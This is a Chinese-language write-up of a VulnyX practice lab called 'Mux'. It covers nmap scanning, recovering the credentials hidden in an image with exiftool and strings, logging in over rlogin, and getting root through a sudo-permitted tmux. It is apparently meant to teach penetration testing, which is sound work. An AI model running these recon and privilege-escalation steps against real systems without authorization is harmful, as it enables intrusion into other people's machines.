







# 环境

来自[vulnyx_Mux](https://vulnyx.com/#Mux)


# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.36
```



## 服务探测

```bash
sudo nmap -sV -sC -O -p80,512,513,514 192.168.88.36

512：在某些系统中，512端口可能被用于远程登录（如rlogin），但这种情况较少见。
513：513端口通常用于远程登录（rlogin），这是一种旧的远程登录协议，类似于telnet，但提供了更少的安全性。
514：514端口通常用于远程命令执行（rsh），这也是一种旧的协议，类似于SSH，但安全性较低。
```



目录扫描无果

# web渗透

## 图片隐写拿到密码

访问80，是一张图片，下载下来

```bash
exiftool image.jpg
strings image.jpg
```





发现账号密码`lisa:My_$3cUr3_RSH_p@zz`和`lisa:Gi0c0nd@`，因为513端口是login，尝试登录

```bash
rlogin lisa@192.168.88.36
```



## 提权

```bash
sudo -l
```



[tmux提权](https://gtfobins.github.io/gtfobins/tmux/)

```bash
sudo tmux
```
